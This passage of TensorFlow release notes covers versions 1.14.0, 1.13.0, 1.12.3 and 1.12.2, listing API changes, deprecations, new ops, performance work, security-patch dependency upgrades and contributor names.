Bairen Yi, Bayberry Z, Ben Barsdell, Benjamin Peterson, bhack, Bharat
Raghunathan, Bhavani Subramanian, Bin Fan, blairhan, BléNesi Attila, Bodin-E,
Brandon Carter, Bryan Cutler, candy.dc, Cao Zongyan, Casper Da Costa-Luis, Chao
Liu, Chen Guoyin, chenchc, chengchingwen, chie8842, Christian Hansen, Christoph
Boeddeker, Christopher Yeh, Clayne Robison, Coady, Patrick, crafet, csukuangfj,
ctiijima, Dan Jarvis, Dan Lazewatsky, Daniel Ingram, Daniel Rasmussen, Daniel
Salvadori, Dave Airlie, David Norman, Dayananda V, delock, Denis Khalikov, Deven
Desai, Dheeraj Rajaram Reddy, Diego Caballero, dmitrievanthony, Donovan Ong,
Drew Szurko, Duncan Dean, Duncan Riach, Dustin Neighly, Dwight J Lyle, Eamon
Ito-Fisher, eashtian3, Edward Forgacs, EFanZh, ejot, Elroy Ashtian Jr, Eric
Schweitz, Evgeniy Polyakov, Fangjun Kuang, Federico Martinez, Fei Hu, Felix
Lemke, Filip Matzner, FlashTek, fo40225, formath, FrançOis Chollet, frreiss,
Fred Reiss, Frederic Bastien, Fredrik Knutsson, G. Hussain Chinoy, Gabriel,
Gautam, gehring, Geoffrey Irving, George Grzegorz Pawelczak, Grzegorz Pawelczak,
George Sterpu, Gianluca Varisco, Gleb Popov, Greg Peatfield, Guillaume Klein,
Gurpreet Singh, Gustavo Lima Chaves, Gyoung-Yoon Ryoo, haison, Hanton Yang,
HanGuo97, Haraldur TóMas HallgríMsson, Hari Shankar, hehongliang, Heungsub Lee,
Hoeseong Kim, Huan Li (李卓桓), HåKon Sandsmark, I-Hong, I-Hong Jhuo, Ilham
Firdausi Putra, Ilango R, Imran Salam, Innovimax, Jacky Ko, Irene Dea, Ivan
Habernal, Jakub Lipinski, Jacky, Jason Zaman, Jason Zavaglia, jayhpark530,
jcf94, jefby, Jeff Daily, Jeff Poznanovic, Jeffrey Poznanovic, Jekyll Lai, jer,
Jeroen BéDorf, jerryyin, jhalakp, jiakai, Jia Qingtong, Jiankang, JiangXIAO, Joe
Bowser, Joe Q, Joe Quadrino, Joel Shapiro, Johan Gunnarsson, Jojimon Varghese,
Jonas Rauber, Jonathan Kyl, Jonathan, Joon, Joppe Geluykens, Joseph Friedman,
Josh Beal, jtressle, Julian Niedermeier, Junqin Zhang, Justin Dujardin, Justin
Tunis, jwu, K. Hodges, kaixih, Kaixi Hou, kjopek, Karl Lessard, Karl
Weinmeister, Karthik Muthuraman, Kashif Rasul, Kay Zhu, Kbhute-Ibm, KDR, Keno
Fischer, Kevin Mader, khanhlvg, Kilaru Yasaswi Sri Chandra Gandhi, Koan-Sin Tan,
Koock Yoon, kouml, ktaebum, Kyuwon Kim, Lakshay Tokas, Laurent Le Brun,
leike666666, leonard951, Leslie-Fang, Letian Kang, Li, Guizi, Loo Rong Jie,
Lucas Hendren, Lukas Folle, Lukas Geiger, Luke Han, luxupu, lvli, Ma, Guokai,
Mahmoud Abuzaina, Maksym Kysylov, Mandar Deshpande, manhyuk, Manraj Singh
Grover, Marco Gaido, Marek Drozdowski, Margaret Maynard-Reid, Mark Ryan, mars20,
Mateusz Chudyk, Matt Conley, mbhuiyan, mdfaijul, Mei Jie, Melissa Grueter,
merturl, MichaelKonobeev, Michael KäUfl, Michal W. Tarnowski, MickaëL
Schoentgen, Miguel Morin, Mihail Salnikov, Mikalai Drabovich, Mike Arpaia, Mike
Holcomb, minds, monklof, Moses Marin, mpppk, Mr. Metal, Mshr-H, musikisomorphie,
nammbash, Natalia Gimelshein, Nathan Luehr, Nayana-Ibm, Nayana Thorat, neargye,
Neeraj Pradhan, Nehal J Wani, Neil, Nick, Nick Lewycky, Niels Ole Salscheider,
Niklas SilfverströM, Niranjan Hasabnis, Nuka-137, Nutti, ocjosen, olicht,
omeir1, P Sudeepam, Paige Bailey, Palmer Lao, Pan Daoxin, Pariksheet Pinjari,
Pasquale Minervini, Patrick J. Lopresti, Patrik Gustavsson, Pavel Akhtyamov,
Pavel Samolysov, PENGWA, per1234, PeterLee, Phan Van Nguyen Duc, Philipp Jund,
Phillip Kravtsov, Pooya Davoodi, Pranav Marathe, Putra Manggala, Qingqing Cao, R
S Nikhil Krishna, Rajeshwar Reddy T, Ramon ViñAs, Rasmus Diederichsen, Reuben
Morais, robert, Rohit Gupta, Roland Zimmermann, Roman Soldatow, RonLek, Ruizhe,
Ryan Jiang, saishruthi, Saleem Abdulrasool, Samantha Andow, Sami Kama,
Sana-Damani, Saurabh Deoras, sdamani, Sean Morgan, seanshpark, Sebastien Iooss,
Serv-Inc, Severen Redwood, Shahzad Lone, Shashank Gupta, shashvat, Shashvat
Chand Shahi, Shubham Goyal, Shashi, Sigrid Keydana, Siju, Siju Samuel,
sleighsoft, smilu97, Snease-Abq, Son Tran, Spencer Schaber, sremedios, Srini511,
srinivasan.narayanamoorthy, Steve Lang, Steve Nesae, Subin, Sumesh Udayakumaran,
Sungmann Cho, sunway513, Supriya Rao, sxwang, Tae-Hwan Jung, Taehoon Lee, Takeo
Sawada, Taylor Jakobson, Taylor Thornton, Ted Chang, TengLu, terryky,
ThisIsIsaac, ThisIsPIRI, Thomas Deegan, Thomas Hagebols, tianyapiaozi, Till
Hoffmann, Tim Zaman, tomguluson92, Tongxuan Liu, Trent Lo, Trevor Morris,
TungJerry, Tyorden, Uday Bondhugula, v1incent, Vagif, Vasileios Lioutas,
vbvg2008, vcarpani, Vijay Ravichandran, Vikram Tiwari,Viktor Gal, Vishwak
Srinivasan, Vincent, Vishnuvardhan Janapati, Vitor-Alves, Vivek Suryamurthy,
wangsiyu, wateryzephyr, WeberXie, Wei Wang, WeijieSun, Wen-Heng (Jack) Chung,
wenxizhu, Will Battel, William D. Irons, winstonq, wyzhao, Xiaoming (Jason) Cui,
Xiaoquan Kong, Xin, Xinping Wang, Yan Facai (颜发才), Yann-Yy, Yasir Modak,
Yasuhiro Matsumoto, ymodak, Yong Tang, Yongfeng Gu, Younes Khoudli, Yuan Lin,
Yuan (Terry) Tang, Yuchen Ying, Yves-Noel Weweler, zhangyujing, zjjott, zyeric,
王振华 (Zhenhua Wang), 黄鑫

# Release 1.14.0

## Major Features and Improvements

*   This is the first 1.x release containing the compat.v2 module. This module
    is required to allow libraries to publish code which works in both 1.x and
    2.x. After this release, no backwards incompatible changes are allowed in
    the 2.0 Python API.
*   Turn on MKL-DNN contraction kernels by default. MKL-DNN dynamically
    dispatches the best kernel implementation based on CPU vector architecture.
    To disable them, build with --define=tensorflow_mkldnn_contraction_kernel=0.

## Behavioral changes

*   Set default loss reduction as `AUTO` for improving reliability of loss
    scaling with distribution strategy and custom training loops. `AUTO`
    indicates that the reduction option will be determined by the usage context.
    For almost all cases this defaults to `SUM_OVER_BATCH_SIZE`. When used in
    distribution strategy scope, outside of built-in training loops such as
    `tf.keras` `compile` and `fit`, we expect reduction value to be 'None' or
    'SUM'. Using other values will raise an error.
*   Wraps losses passed to the `compile` API (strings and v1 losses) which are
    not instances of v2 `Loss` class in `LossWrapper` class. => All losses will
    now use `SUM_OVER_BATCH_SIZE` reduction as default.
*   Disable `run_eagerly` and distribution strategy if there are symbolic
    tensors added to the model using `add_metric` or `add_loss`.
*   tf.linspace(start, stop, num) now always uses "stop" as last value (for
    num > 1)
*   `ResourceVariable` and `Variable` no longer accepts `constraint` in the
    constructor, nor expose it as a @property.
*   The behavior of tf.gather is now correct when axis=None and batch_dims<0.
*   Only create a GCS directory object if the object does not already exist.
*   In `map_vectorization` optimization, reduce the degree of parallelism in the
    vectorized map node.
*   Bug fix: loss and gradients should now more reliably be correctly scaled
    w.r.t. the global batch size when using a tf.distribute.Strategy.
*   Updating cosine similarity loss - removed the negate sign from cosine
    similarity.
*   DType is no longer convertible to an int. Use dtype.as_datatype_enum instead
    of int(dtype) to get the same result.
*   Changed default for gradient accumulation for TPU embeddings to true.
*   Callbacks now log values in eager mode when a deferred build model is used.
*   Transitive dependencies on :pooling_ops were removed. Some users may need to
    add explicit dependencies on :pooling_ops if they reference the operators
    from that library.
*   tf.keras.optimizers default learning rate changes:
    *   Adadelta: 1.000 to 0.001
    *   Adagrad: 0.01 to 0.001
    *   Adamax: 0.002 to 0.001
    *   NAdam: 0.002 to 0.001

## Bug Fixes and Other Changes

*   Documentation
*   Deprecations and Symbol renames.
    *   Remove unused StringViewVariantWrapper
    *   Delete unused Fingerprint64Map op registration
    *   SignatureDef util functions have been deprecated.
    *   Renamed tf.image functions to remove duplicate "image" where it is
        redundant.
    *   tf.keras.experimental.export renamed to
        tf.keras.experimental.export_saved_model
    *   Standardize the LayerNormalization API by replacing the args `norm_axis`
        and `params_axis` with `axis`.
    *   Tensor::UnsafeCopyFromInternal deprecated in favor Tensor::BitcastFrom
*   Keras & Python API
    *   Add v2 module aliases for:
    *   tf.initializers => tf.keras.initializers
    *   tf.losses => tf.keras.losses & tf.metrics => tf.keras.metrics
    *   tf.optimizers => tf.keras.optimizers
    *   Add tf.keras.layers.AbstractRNNCell as the preferred implementation of
        RNN cell for TF v2. User can use it to implement RNN cell with custom
        behavior.
    *   Adding `clear_losses` API to be able to clear losses at the end of
        forward pass in a custom training loop in eager.
    *   Add support for passing list of lists to the `metrics` param in Keras
        `compile`.
    *   Added top-k to precision and recall to keras metrics.
    *   Adding public APIs for `cumsum` and `cumprod` keras backend functions.
    *   Fix: model.add_loss(symbolic_tensor) should work in ambient eager.
    *   Add name argument to tf.string_split and tf.strings_split
    *   Minor change to SavedModels exported from Keras using
        tf.keras.experimental.export. (SignatureDef key for evaluation mode is
        now "eval" instead of "test"). This will be reverted back to "test" in
        the near future.
    *   Updates binary cross entropy logic in Keras when input is probabilities.
        Instead of converting probabilities to logits, we are using the cross
        entropy formula for probabilities.
    *   Raw TensorFlow functions can now be used in conjunction with the Keras
        Functional API during model creation. This obviates the need for users
        to create Lambda layers in most cases when using the Functional API.
        Like Lambda layers, TensorFlow functions that result in Variable
        creation or assign ops are not supported.
    *   Keras training and validation curves are shown on the same plot.
    *   Introduce `dynamic` constructor argument in Layer and Model, which
        should be set to True when using imperative control flow in the `call`
        method.
    *   Removing of dtype in the constructor of initializers and partition_info
        in call.
*   New ops and improved op functionality
    *   Add OpKernels for some stateless maps
    *   Add v2 APIs for AUCCurve and AUCSummationMethod
        enums. #tf-metrics-convergence
    *   Add tf.math.nextafter op.
    *   Add CompositeTensor base class.
    *   Add tf.linalg.tridiagonal_solve op.
    *   Add opkernel templates for common table operations.
    *   Added support for TFLite in TensorFlow 2.0.
    *   Adds summary trace API for collecting graph and profile information.
    *   Add batch_dims argument to tf.gather.
    *   Add support for `add_metric` in the graph function mode.
    *   Add C++ Gradient for BatchMatMulV2.
    *   Added tf.random.binomial
    *   Added gradient for SparseToDense op.
    *   Add legacy string flat hash map op kernels
    *   Add a ragged size op and register it to the op dispatcher
    *   Add broadcasting support to tf.matmul.
    *   Add ellipsis (...) support for tf.einsum()
    *   Added LinearOperator.adjoint and LinearOperator.H (alias).
    *   Added GPU implementation of tf.linalg.tridiagonal_solve.
    *   Added strings.byte_split
    *   Add RaggedTensor.placeholder()
    *   Add a new "result_type" parameter to tf.strings.split
    *   `add_update` can now be passed a zero-arg callable in order to support
        turning off the update when setting `trainable=False` on a Layer of a
        Model compiled with `run_eagerly=True`.
    *   Add variant wrapper for absl::string_view
    *   Add expand_composites argument to all nest.* methods.
    *   Add pfor converter for Squeeze.
    *   Bug fix for tf.tile gradient
    *   Expose CriticalSection in core as tf.CriticalSection.
    *   Update Fingerprint64Map to use aliases
    *   ResourceVariable support for gather_nd.
    *   ResourceVariable's gather op supports batch dimensions.
    *   Variadic reduce is supported on CPU
    *   Extend tf.function with basic support for CompositeTensors arguments
        (such as SparseTensor and RaggedTensor).
    *   Add templates and interfaces for creating lookup tables
    *   Post-training quantization tool supports quantizing weights shared by
        multiple operations. The models made with versions of this tool will use
        INT8 types for weights and will only be executable interpreters from
        this version onwards.
    *   Malformed gif images could result in an access out of bounds in the
        color palette of the frame. This has been fixed now
    *   image.resize now considers proper pixel centers and has new kernels
        (incl. anti-aliasing).
    *   Added an isotonic regression solver (tf.nn.isotonic_regression).
*   Performance
    *   Turn on MKL-DNN contraction kernels by default. MKL-DNN dynamically
        dispatches the best kernel implementation based on CPU vector
        architecture. To disable them, build with
        --define=tensorflow_mkldnn_contraction_kernel=0.
    *   Support for multi-host ncclAllReduce in Distribution Strategy.
    *   Expose a flag that allows the number of threads to vary across Python
        benchmarks.
*   TensorFlow 2.0 Development
    *   Add v2 sparse categorical crossentropy metric.
    *   Allow non-Tensors through v2 losses.
    *   Add UnifiedGRU as the new GRU implementation for tf2.0. Change the
        default recurrent activation function for GRU from 'hard_sigmoid' to
        'sigmoid', and 'reset_after' to True in 2.0. Historically recurrent
        activation is 'hard_sigmoid' since it is fast than 'sigmoid'. With new
        unified backend between CPU and GPU mode, since the CuDNN kernel is
        using sigmoid, we change the default for CPU mode to sigmoid as well.
        With that, the default GRU will be compatible with both CPU and GPU
        kernel. This will enable user with GPU to use CuDNN kernel by default
        and get a 10x performance boost in training. Note that this is
        checkpoint breaking change. If user want to use their 1.x pre-trained
        checkpoint, please construct the layer with
        GRU(recurrent_activation='hard_sigmoid', reset_after=False) to fallback
        to 1.x behavior.
    *   TF 2.0 - Update metric name to always reflect what the user has given in
        compile. Affects following cases 1. When name is given as
        'accuracy'/'crossentropy' 2. When an aliased function name is used eg.
        'mse' 3. Removing the `weighted` prefix from weighted metric names.
    *   Begin adding Go wrapper for C Eager API
    *   image.resize in 2.0 now supports gradients for the new resize kernels.
    *   removed tf.string_split from v2 API
    *   Expose tf.contrib.proto.* ops in tf.io (they will exist in TF2)
    *   "Updates the TFLiteConverter API in 2.0. Changes from_concrete_function
        to from_concrete_functions."
    *   Enable tf.distribute.experimental.MultiWorkerMirroredStrategy working in
        eager mode.
    *   Support both binary and -1/1 label input in v2 hinge and squared hinge
        losses.
*   TensorFlow Lite
    *   "Adds support for tflite_convert in 2.0."
    *   "Remove lite.OpHint, lite.experimental, and lite.constant from 2.0 API."
*   tf.contrib
    *   Added Neural Turing Implementation as described in
        https://arxiv.org/abs/1807.08518.
    *   Remove tf.contrib.timeseries dependency on TF distributions.
*   tf.data
    *   Add num_parallel_reads and passing in a Dataset containing filenames
        into TextLineDataset and FixedLengthRecordDataset
    *   Going forward we operate in TF 2.0, this change is part of the effort to
        slowly converting XYZDataset to DatasetV2 type which is the official
        version going to be used in TF 2.0 and motivated by some compatibility
        issue found, _BigtableXYZDataset (of type DatasetV2) does not implement
        the _as_variant_tensor() of DatasetV1, when moving contrib.bigtable to
        tensorflow_io. Converting into DatasetV2 removes the overheads to
        maintain V1 while we are moving into TF 2.0.
    *   Add dataset ops to the graph (or create kernels in Eager execution)
        during the python Dataset object creation instead doing it during
        Iterator creation time.
    *   Add support for TensorArrays to tf.data Dataset.
    *   Switching tf.data functions to use `defun`, providing an escape hatch to
        continue using the legacy `Defun`.
*   Toolchains
    *   CUDNN_INSTALL_PATH, TENSORRT_INSTALL_PATH, NCCL_INSTALL_PATH,
        NCCL_HDR_PATH are deprecated. Use TF_CUDA_PATHS instead which supports a
        comma-separated list of base paths that are searched to find CUDA
        libraries and headers.
    *   TF code now resides in `tensorflow_core` and `tensorflow` is just a
        virtual pip package. No code changes are needed for projects using
        TensorFlow, the change is transparent
*   XLA
    *   XLA HLO graphs can be inspected with interactive_graphviz tool now.
*   Estimator
    *   Use tf.compat.v1.estimator.inputs instead of tf.estimator.inputs
    *   Replace contrib references with tf.estimator.experimental.* for apis in
        early_stopping.py

## Thanks to our Contributors

This release contains contributions from many people at Google, as well as:

1e100, 4d55397500, a6802739, abenmao, Adam Weiss, Ag Ramesh, Alan Du, Albin Joy,
Alex, Aman Patel, Amit, Amit Kumar Jaiswal, Amit Srivastava, Andreas Eberle,
Andy Craze, Anthony Platanios, Armen Poghosov, armenpoghosov, arp95, Arpit Shah,
Ashwin Ramaswami, Aurelien Geron, AuréLien Geron, aweers, awesomealex1, Ayush
Agrawal, Ben Barsdell, Bharat Raghunathan, Bhavani Subramanian, blairhan,
BléNesi Attila, Brandon Carter, candy.dc, Chao Liu, chenchc, chie8842, Christian
Hansen, Christian Sigg, Clayne Robison, crafet, csukuangfj, ctiijima, Dan
Jarvis, Dan Lazewatsky, Daniel Ingram, Daniel Salvadori, Dave Airlie, David
Norman, Dayananda V, Dayananda-V, delock, Denis Khalikov, Deven Desai, Dheeraj
Rajaram Reddy, dmitrievanthony, Donovan Ong, Drew Szurko, Duncan Riach, Dustin
Neighly, Edward Forgacs, EFanZh, Fei Hu, Felix Lemke, Filip Matzner, fo40225,
frreiss, Gautam, gehring, Geoffrey Irving, Grzegorz George Pawelczak, Grzegorz
Pawelczak, Gyoung-Yoon Ryoo, HanGuo97, Hanton Yang, Hari Shankar, hehongliang,
Heungsub Lee, Hoeseong Kim, I-Hong Jhuo, Ilango R, Innovimax, Irene Dea, Jacky
Ko, Jakub Lipinski, Jason Zaman, jcf94, Jeffrey Poznanovic, Jens Elofsson,
Jeroen BéDorf, Jia Qingtong, Jiankang, Joe Q, Joe Quadrino, Joeran Beel, Jonas
Rauber, Jonathan, Jonathan Kyl, Joppe Geluykens, Joseph Friedman, jtressle, jwu,
K Yasaswi Sri Chandra Gandhi, K. Hodges, Kaixi Hou, Karl Lessard, Karl
Weinmeister, Karthik Muthuraman, Kashif Rasul, KDR, Keno Fischer, Kevin Mader,
kjopek, Koan-Sin Tan, kouml, ktaebum, Lakshay Tokas, Laurent Le Brun, Letian
Kang, Li, Guizi, Loo Rong Jie, Lucas Hendren, Lukas Geiger, Luke Han, luxupu,
Ma, Guokai, Mahmoud Abuzaina, Mandar Deshpande, manhyuk, Marco Gaido, Marek
Drozdowski, Mark Collier, Mark Ryan, mars20, Mateusz Chudyk, Matt Conley,
MattConley, mbhuiyan, mdfaijul, Melissa Grueter, Michael KäUfl, MickaëL
Schoentgen, Miguel Morin, Mihail Salnikov, Mike Arpaia, Mike Holcomb, monklof,
Moses Marin, Mshr-H, nammbash, Natalia Gimelshein, Nayana-Ibm, neargye, Neeraj
Pradhan, Nehal J Wani, Nick, Niels Ole Salscheider, Niranjan Hasabnis, nlewycky,
Nuka-137, Nutti, olicht, P Sudeepam, Palmer Lao, Pan Daoxin, Pariksheet Pinjari,
Pavel Samolysov, PENGWA, Pooya Davoodi, R S Nikhil Krishna, Rohit Gupta, Roman
Soldatow, rthadur, Ruizhe, Ryan Jiang, Samantha Andow, Sami Kama, Sana-Damani,
Saurabh Deoras, sdamani, seanshpark, Sebastien Iooss, Serv-Inc, Shahzad Lone,
Shashank Gupta, Shashi, shashvat, shashvatshahi1998, Siju, Siju Samuel,
Snease-Abq, Spencer Schaber, sremedios, srinivasan.narayanamoorthy, Steve Lang,
Steve Nesae, Sumesh Udayakumaran, Supriya Rao, Taylor Jakobson, Taylor Thornton,
Ted Chang, ThisIsPIRI, Thomas Deegan, Thomas Hagebols, tianyapiaozi, Tim Zaman,
tomguluson92, Tongxuan Liu, TungJerry, v1incent, Vagif, vcarpani, Vikram Tiwari,
Vishwak Srinivasan, Vitor-Alves, wangsiyu, wateryzephyr, WeberXie, WeijieSun,
Wen-Heng (Jack) Chung, wenxizhu, Will Battel, William D. Irons, wyzhao, Xin,
Yasuhiro Matsumoto, ymodak, Yong Tang, Younes Khoudli, Yuan Lin, Yves-Noel
Weweler, Zantares, zjjott, 卜居, 王振华 (Wang Zhenhua), 黄鑫

# Release 1.12.3

## Bug Fixes and Other Changes

*   Updates `png_archive` dependency to 1.6.37 to not be affected by
    CVE-2019-7317, CVE-2018-13785, and CVE-2018-14048.
*   Updates `sqlite` dependency to 3.28.0 to not be affected by CVE-2018-20506,
    CVE-2018-20346, and CVE-2018-20505.

# Release 1.12.2

## Bug Fixes and Other Changes

*   Fixes a potential security vulnerability where carefully crafted GIF images
    can produce a null pointer dereference during decoding.

# Release 1.13.0

## Major Features and Improvements

* TensorFlow Lite has moved from contrib to core. This means that Python modules are under `tf.lite` and source code is now under `tensorflow/lite` rather than `tensorflow/contrib/lite`.
* TensorFlow GPU binaries are now built against CUDA 10 and TensorRT 5.0.
* Support for Python3.7 on all operating systems.
* Moved NCCL to core.

## Behavioral changes

* Disallow conversion of python floating types to uint32/64 (matching behavior of other integer types) in `tf.constant`.
* Make the `gain` argument of convolutional orthogonal initializers (`convolutional_delta_orthogonal`, `convolutional_orthogonal_1D`, `convolutional_orthogonal_2D`, `convolutional_orthogonal_3D`) have consistent behavior with the `tf.initializers.orthogonal` initializer, i.e. scale the output l2-norm by `gain` and NOT by `sqrt(gain)`. (Note that these functions are currently in `tf.contrib` which is not guaranteed backward compatible).

## Bug Fixes and Other Changes

*   Documentation
    *   Update the doc with the details about the rounding mode used in
        quantize_and_dequantize_v2.
    *   Clarify that tensorflow::port::InitMain() _should_ be called before
        using the TensorFlow library. Programs failing to do this are not
        portable to all platforms.
*   Deprecations and Symbol renames.
    *   Removing deprecations for the following endpoints: `tf.acos`,
        `tf.acosh`, `tf.add`, `tf.as_string`, `tf.asin`, `tf.asinh`, `tf.atan`,
        `tf.atan2`, `tf.atanh`, `tf.cos`, `tf.cosh`, `tf.equal`, `tf.exp`,
        `tf.floor`, `tf.greater`, `tf.greater_equal`, `tf.less`,
        `tf.less_equal`, `tf.log`, `tf.logp1`, `tf.logical_and`,
        `tf.logical_not`, `tf.logical_or`, `tf.maximum`, `tf.minimum`,
        `tf.not_equal`, `tf.sin`, `tf.sinh`, `tf.tan`
    *   Deprecate `tf.data.Dataset.shard`.
    *   Deprecate `saved_model.loader.load` which is replaced by
        `saved_model.load` and `saved_model.main_op`, which will be replaced by
        `saved_model.main_op` in V2.
    *   Deprecate tf.QUANTIZED_DTYPES. The official new symbol is
        tf.dtypes.QUANTIZED_DTYPES.
    *   Update sklearn imports for deprecated packages.
    *   Deprecate `Variable.count_up_to` and `tf.count_up_to` in favor of
        `Dataset.range`.
    *   Export `confusion_matrix` op as `tf.math.confusion_matrix` instead of
        `tf.train.confusion_matrix`.
    *   Add `tf.dtypes.` endpoint for every constant in dtypes.py. Moving
        endpoints in versions.py to corresponding endpoints in `tf.sysconfig.`
        and `tf.version.`. Moving all constants under `tf.saved_model`
        submodules to `tf.saved_model` module. New endpoints are added in V1 and
        V2 but existing endpoint removals are only applied in V2.
    *   Deprecates behavior where device assignment overrides collocation
        constraints inside a collocation context manager.
*   Keras & Python API
    *   Add to Keras functionality analogous to
        `tf.register_tensor_conversion_function`.
    *   Subclassed Keras models can now be saved through
        `tf.contrib.saved_model.save_keras_model`.
    *   `LinearOperator.matmul` now returns a new `LinearOperator`.
*   New ops and improved op functionality
    *   Add a Nearest Neighbor Resize op.
    *   Add an `ignore_unknown` argument to `parse_values` which suppresses
        ValueError for unknown hyperparameter types. Such * Add
        `tf.linalg.matvec` convenience function.
    *   `tf.einsum()`raises `ValueError` for unsupported equations like
        `"ii->"`.
    *   Add DCT-I and IDCT-I in `tf.signal.dct` and `tf.signal.idct`.
    *   Add LU decomposition op.
    *   Add quantile loss to gradient boosted trees in estimator.
    *   Add `round_mode` to `QuantizeAndDequantizeV2` op to select rounding
        algorithm.
    *   Add `unicode_encode`, `unicode_decode`, `unicode_decode_with_offsets`,
        `unicode_split`, `unicode_split_with_offset`, and `unicode_transcode`
        ops. Amongst other things, this Op adds the ability to encode, decode,
        and transcode a variety of input text encoding formats into the main
        Unicode encodings (UTF-8, UTF-16-BE, UTF-32-BE)
    *   Add "unit" attribute to the substr op, which allows obtaining the
        substring of a string containing unicode characters.
    *   Broadcasting support for Ragged Tensors.
    *   `SpaceToDepth` supports uint8 data type.
    *   Support multi-label quantile regression in estimator.
    *   We now use "div" as the default partition_strategy in
        `tf.nn.safe_embedding_lookup_sparse`, `tf.nn.sampled_softmax` and
        `tf.nn.nce_loss`. hyperparameter are ignored.
*   Performance
    *   Improve performance of GPU cumsum/cumprod by up to 300x.
    *   Added support for weight decay in most TPU embedding optimizers,
        including AdamW and MomentumW.
*   TensorFlow 2.0 Development
    *   Add a command line tool to convert to TF2.0, tf_upgrade_v2
    *   Merge `tf.spectral` into `tf.signal` for TensorFlow 2.0.
    *   Change the default recurrent activation function for LSTM from
        'hard_sigmoid' to 'sigmoid' in 2.0. Historically recurrent activation is
        'hard_sigmoid' since it is fast than 'sigmoid'. With new unified backend
        between CPU and GPU mode, since the CuDNN kernel is using sigmoid, we
        change the default for CPU mode to sigmoid as well. With that, the
        default LSTM will be compatible with both CPU and GPU kernel. This will
        enable user with GPU to use CuDNN kernel by default and get a 10x
        performance boost in training. Note that this is checkpoint breaking
        change. If user want to use their 1.x pre-trained checkpoint, please
        construct the layer with LSTM(recurrent_activation='hard_sigmoid') to
        fallback to 1.x behavior.
*   TensorFlow Lite
    *   Move from `tensorflow/contrib/lite` to `tensorflow/lite`.
    *   Add experimental Java API for injecting TensorFlow Lite delegates
    *   Add support for strings in TensorFlow Lite Java API.
*   `tf.contrib`:
    *   Add Apache Ignite Filesystem plugin to support accessing Apache IGFS.
    *   Dropout now takes `rate` argument, `keep_prob` is deprecated.
    *   Estimator occurrences references `tf.contrib.estimator` were changed to
        `tf.estimator`:
    *   `tf.contrib.estimator.BaselineEstimator` with
        `tf.estimator.BaselineEstimator`
    *   `tf.contrib.estimator.DNNLinearCombinedEstimator` with
        `tf.estimator.DNNLinearCombinedEstimator`
    *   `tf.contrib.estimator.DNNEstimator` with `tf.estimator.DNNEstimator`
    *   `tf.contrib.estimator.LinearEstimator` with
        `tf.estimator.LinearEstimator`
    *   `tf.contrib.estimator.InMemoryEvaluatorHook` and
        tf.estimator.experimental.InMemoryEvaluatorHook`.
    *   `tf.contrib.estimator.make_stop_at_checkpoint_step_hook` with
        `tf.estimator.experimental.make_stop_at_checkpoint_step_hook`.
    *   Expose `tf.distribute.Strategy as the new name for
        tf.contrib.distribute.DistributionStrategy.
    *   Migrate linear optimizer from contrib to core.
    *   Move `tf.contrib.signal` to `tf.signal` (preserving aliases in
        tf.contrib.signal).
    *   Users of `tf.contrib.estimator.export_all_saved_models` and related
        should switch to
        `tf.estimator.Estimator.experimental_export_all_saved_models`.
*   tf.data:
    *   Add `tf.data.experimental.StatsOptions()`, to configure options to
        collect statistics from `tf.data.Dataset` pipeline using
        `StatsAggregator`. Add nested option, `experimental_stats` (which takes
        a `tf.data.experimen tal.StatsOptions` object), to `tf.data.Options`.
        Deprecates `tf.data.experimental.set_stats_agregator`.
    *   Performance optimizations:
    *   Add `tf.data.experimental.OptimizationOptions()`, to configure options
        to enable `tf.data` performance optimizations. Add nested option,
        `experimental_optimization` (which takes a
        `tf.data.experimental.OptimizationOptions` object), to
        `tf.data.Options`. Remove performance optimization options from
        `tf.data.Options`, and add them under
        `tf.data.experimental.OptimizationOptions` instead.
    *   Enable `map_and_batch_fusion` and `noop_elimination` optimizations by
        default. They can be disabled by configuring
        `tf.data.experimental.OptimizationOptions` to set `map_and_batch =
        False` or `noop_elimination = False` respectively. To disable all
        default optimizations, set `apply_default_optimizations = False`.
    *   Support parallel map in `map_and_filter_fusion`.
    *   Disable static optimizations for input pipelines that use non-resource
        `tf.Variable`s.
    *   Add NUMA-aware MapAndBatch dataset.
    *   Deprecate `tf.data.Dataset.make_one_shot_iterator()` in V1, removed it
        from V2, and added tf.compat.v1.data.make_one_shot_iterator()`.
    *   Deprecate `tf.data.Dataset.make_initializable_iterator()` in V1, removed
        it from V2, and added `tf.compat.v1.data.make_initializable_iterator()`.
    *   Enable nested dataset support in core `tf.data` transformations.
    *   For `tf.data.Dataset` implementers: Added
        `tf.data.Dataset._element_structured property` to replace
        `Dataset.output_{types,shapes,classes}`.
    *   Make `num_parallel_calls` of `tf.data.Dataset.interleave` and
        `tf.data.Dataset.map` work in Eager mode.
*   Toolchains
    *   Fixed OpenSSL compatibility by avoiding `EVP_MD_CTX_destroy`.
    *   Added bounds checking to printing deprecation warnings.
    *   Upgraded CUDA dependency to 10.0
    *   To build with Android NDK r14b, add "#include <linux/compiler.h>" to
        android-ndk-r14b/platforms/android-14/arch-*/usr/include/linux/futex.h
    *   Removed `:android_tensorflow_lib_selective_registration*` targets, use
        `:android_tensorflow_lib_lite*` targets instead.
*   XLA
    *   Move `RoundToEven` function to xla/client/lib/math.h.
    *   A new environment variable `TF_XLA_DEBUG_OPTIONS_PASSTHROUGH` set to "1"
        or "true" allows the debug options passed within an XRTCompile op to be
        passed directly to the XLA compilation backend. If such variable is not
        set (service side), only a restricted set will be passed through.
    *   Allow the XRTCompile op to return the ProgramShape resulted form the XLA
        compilation as a second return argument.
    *   XLA HLO graphs can now be rendered as SVG/HTML.
*   Estimator
    *   Replace all occurrences of `tf.contrib.estimator.BaselineEstimator` with
        `tf.estimator.BaselineEstimator`
    *   Replace all occurrences of
        `tf.contrib.estimator.DNNLinearCombinedEstimator` with
        `tf.estimator.DNNLinearCombinedEstimator`
    *   Replace all occurrences of `tf.contrib.estimator.DNNEstimator` with
        `tf.estimator.DNNEstimator`
    *   Replace all occurrences of `tf.contrib.estimator.LinearEstimator` with
        `tf.estimator.LinearEstimator`
    *   Users of `tf.contrib.estimator.export_all_saved_models` and related
        should switch to
        `tf.estimator.Estimator.experimental_export_all_saved_models`.
    *   Update `regression_head` to the new Head API for Canned Estimator V2.
    *   Switch `multi_class_head` to Head API for Canned Estimator V2.
    *   Replace all occurrences of `tf.contrib.estimator.InMemoryEvaluatorHook`
        and `tf.contrib.estimator.make_stop_at_checkpoint_step_hook` with
        `tf.estimator.experimental.InMemoryEvaluatorHook` and
        `tf.estimator.experimental.make_stop_at_checkpoint_step_hook`
    *   Migrate linear optimizer from contrib to core.

## Thanks to our Contributors

This release contains contributions from many people at Google, as well as:

